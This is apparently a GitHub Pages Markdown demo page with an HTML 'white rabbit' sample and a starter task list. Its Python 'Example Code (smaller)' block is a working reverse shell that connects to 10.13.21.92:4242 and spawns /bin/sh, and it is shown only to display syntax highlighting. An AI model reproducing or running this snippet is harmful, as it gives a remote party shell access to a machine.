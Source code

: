 # Huge Graphic

![Image of Yaktocat](https://octodex.github.com/images/yaktocat.png)

## Example Code  
```html
<!DOCTYPE html>
<head>
  <title>Follow the white rabbit.</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>
<body>
    <h1>Follow the White Rabbit.</h1>
    <p>"Curiouser and curiouser!" cried Alice (she was so much surprised, that for the moment she quite forgot how to speak good English)</p>
    <img src="/img/white_rabbit_1.jpg" style="height: 50rem;">
</body>
```

### Example Code (smaller)

```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.13.21.92",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```
Notice the colorized syntax highlighting, nice eh?

#### Example Task List 4
- [ ] Start learning GitHub Pages
- [ ] Outline my portfolio
- [ ] Introduce the World to Me
